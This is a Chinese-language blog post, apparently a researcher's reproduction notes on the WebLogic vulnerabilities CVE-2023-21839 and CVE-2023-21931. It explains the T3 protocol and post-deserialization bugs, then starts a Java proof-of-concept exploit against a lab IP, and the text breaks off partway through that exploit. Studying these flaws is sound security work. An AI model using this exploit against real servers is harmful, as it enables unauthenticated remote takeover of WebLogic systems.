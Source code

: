 ```yaml
---
title: 关于Weblogic漏洞(CVE-2023-21839和CVE-2023-21931)
date: 2023-06-28 15:25:29
tags: Java
cover: https://raw.githubusercontent.com/todis21/image/main/wallhaven-qzl3jq_1920x1080.png
---
```


## 前言

之前没复现过Weblogic相关的漏洞，现在有空就想复现一下今年爆出的两个漏洞CVE-2023-21839和CVE-2023-21931，跟着大佬的文章学习一手



## T3协议

T3协议参考https://c0ny1.gitbooks.io/javasec/content/jing-dian-an-li/t3xie-yi-yan-jiu.html

查阅资料发现weblogic的反序列化漏洞大致分为两种，一种是基于T3协议的反序列化漏洞，一种是基于XML的反序列化漏洞。

关于这个T3协议，是Weblogic里面独有的一个协议，传输的数据是序列化后的数据，而服务器在接收到数据后会进行一个反序列化的操作，所以下面提到的两个漏洞都是属于**后序列化漏洞**



## 后序列化漏洞

![image-20230628161949561](https://raw.githubusercontent.com/todis21/image/main/image-20230628161949561.png)

Weblogic反序列化漏洞挖掘思路是利⽤ readObject() 、 readResolve() 、 readExternal() 等反序列化⽅法对恶意序列化数据进⾏操作，以达到攻击⽬的。常规的漏洞思路重点关注Weblogic在反序列化过程中进⾏恶意攻击，⽽忽略了反序列化完成后的操作。后反序列化漏洞挖掘的思路重点关注Weblogic完成反序列化过程后，在达到某个时机或执⾏操作后触发的漏洞攻击。



## CVE-2023-21839

### 漏洞描述

WebLogic存在远程代码执行漏洞，该漏洞允许未经身份验证的远程攻击者通过T3/IIOP协议网络访问并破坏易受攻击的WebLogic服务器，成功利用此漏洞可能导致Oracle WebLogic服务器被接管或敏感信息泄露。漏洞原理其实是通过Weblogic t3/iiop协议支持远程绑定对象bind到服务端，当远程对象继承自OpaqueReference时，lookup查看远程对象时，服务端调用远程对象getReferent方法，其中的remoteJNDIName参数可控，导致攻击者可利用rmi/ldap远程协议进行远程命令执行。

### POC

```java
package org.example;

import javax.naming.Context;
import javax.naming.InitialContext;
import java.lang.reflect.Field;
import java.util.Hashtable;
import weblogic.deployment.jms.ForeignOpaqueReference;

public class App {
    public static void main(String[] args) throws Exception {
        String JNDI_FACTORY = "weblogic.jndi.WLInitialContextFactory";

        // 创建用来远程绑定对象的InitialContext
        String url = "t3://192.168.79.133:7001"; // 目标机器
        Hashtable env1 = new Hashtable();
        env1.put(Context.INITIAL_CONTEXT_FACTORY, JNDI_FACTORY);
        env1.put(Context.PROVIDER_URL, url); // 目标
        InitialContext c = new InitialContext(env1);

        // ForeignOpaqueReference的jndiEnvironment属性
```